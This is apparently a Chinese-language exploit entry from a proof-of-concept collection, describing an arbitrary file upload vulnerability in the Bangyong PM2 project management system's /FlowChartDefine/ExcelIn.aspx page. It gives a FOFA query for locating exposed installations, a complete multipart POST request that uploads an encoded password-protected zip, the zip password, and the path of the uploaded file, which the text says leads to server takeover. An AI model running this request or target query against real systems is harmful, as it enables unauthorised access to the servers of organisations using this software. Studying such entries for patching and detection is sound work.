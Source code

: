 # 邦永PM2项目管理平台系统ExcelIn.aspx存在任意文件上传漏洞

邦永PM2项目管理系统`/FlowChartDefine/ExcelIn.aspx`存在任意文件上传漏洞，导致获取服务器权限，造成系统严重危害。

## fofa

```yaml
body="PM2项目管理系统BS版增强工具.zip"
```

## poc

```yaml
POST /FlowChartDefine/ExcelIn.aspx HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAU4uQKbpWhA7eME3
Cookie: ASP.NET_SessionId=oewffeov54f2dfj3iyz2u1qp
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Cache-Control: max-age=0
Accept-Encoding: gzip, deflate
Content-Length: 1470

------WebKitFormBoundaryAU4uQKbpWhA7eME3
Content-Disposition: form-data; name="__VIEWSTATE"

U6iRl9SqWWlhjIPJXIeFrsinqYAmYxenxFiyfWFMfWgnw3OtkceDLcdfRvB8pmUNGk44PvjZ6LlzPwDbJGmilsmhuX9LvOiuKadYa9iDdSipLW5JvUHjS89aGzKqr9fhih+p+/Mm+q2vrknhfEJJnQ==
------WebKitFormBoundaryAU4uQKbpWhA7eME3
Content-Disposition: form-data; name="__VIEWSTATEGENERATOR"

FD259C0F
------WebKitFormBoundaryAU4uQKbpWhA7eME3
Content-Disposition: form-data; name="__EVENTVALIDATION"

/pKblUYGQ+ibKtw4CCS2wzX+lmZIOB+x5ezYw0qJFbaUifUKlxNNRMKceZYgY/eAUUTaxe0gSvyv/oA8lUS7G7jPVqqrMEzYBVBl8dRkFWFwMqqjv1G9gXM/ZnIpnVSL
------WebKitFormBoundaryAU4uQKbpWhA7eME3
Content-Disposition: form-data; name="FileUpload1"; filename="1234.zip"
Content-Type: application/x-zip-compressed

{{unquote("PK\x03\x04\x14\x00\x01\x00\x00\x00\xefl\xfaX\x1c:\xf5\xcb\x11\x00\x00\x00\x05\x00\x00\x00\x08\x00\x00\x001234.txt\xb0\x0c\x01\x08\xd1!\xd1Uv \xfal\x9b\xf4Q\xfd\xf8PK\x01\x02?\x00\x14\x00\x01\x00\x00\x00\xefl\xfaX\x1c:\xf5\xcb\x11\x00\x00\x00\x05\x00\x00\x00\x08\x00$\x00\x00\x00\x00\x00\x00\x00 \x00\x00\x00\x00\x00\x00\x001234.txt\x0a\x00 \x00\x00\x00\x00\x00\x01\x00\x18\x00\x05\x8d\x9d.\x1e\xdf\xda\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00PK\x05\x06\x00\x00\x00\x00\x01\x00\x01\x00Z\x00\x00\x007\x00\x00\x00\x00\x00")}}
------WebKitFormBoundaryAU4uQKbpWhA7eME3
Content-Disposition: form-data; name="Button1"

模块导入
------WebKitFormBoundaryAU4uQKbpWhA7eME3--
```

1234.zip 配置，需要设置压缩密码：`88905958`

![image-20240726135032717](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407261350756.png)

![image-20240726135135002](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407261351049.png)

![image-20240726134952383](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407261349427.png)

文件上传路径

`http://127.0.0.1//FlowChartDefine/1234.txt`



## 漏洞来源

- https://mp.weixin.qq.com/s/-AcRScqoi8-rzDbhV3dxXA